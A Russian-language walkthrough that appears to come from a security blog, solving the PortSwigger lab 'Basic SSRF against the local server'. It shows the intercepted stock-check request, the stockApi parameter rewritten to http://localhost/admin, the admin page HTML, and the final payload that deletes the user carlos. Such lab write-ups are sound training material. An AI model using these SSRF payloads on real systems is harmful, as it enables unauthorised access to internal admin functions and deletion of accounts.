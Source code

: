 ```yaml
---
title: "Basic SSRF against the local server"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-localhost"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/
```

## Solution

Следуя из задачи, нам нужно найти место на сайте, где используется обращение по `HTTP` на сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/1.png){: height="200" .align-center}

При нажатии на кнопку `Check stock` отправляется `HTTP`-запрос на внешний ресурс, и результат подставляется на место вызова.

```http
POST /product/stock HTTP/2

Host: 0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Cookie: session=EqA7ic9vbBVvFyCUEHLcOxMY8ACPeOyI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D3
```

Заменим `stockApi` на `http://localhost/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/2.png){: height="200" .align-center}

Мы получили страницу админ панели. Теперь нам нужно узнать, с помощью какого запроса происходит удаление пользователя.

```html
</header>
<section>
	<h1>Users</h1>
	<div>
		<span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
	</div>
    <div>
        <span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
</section>
```

Из кода страницы понятно, что для удаления пользователя `carlos` нам нужно отправить следующий `HTTP`-запрос: `http://localhost/admin/delete?username=carlos`. Отправим запрос и проверим результат.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/3.png){: height="200" .align-center}
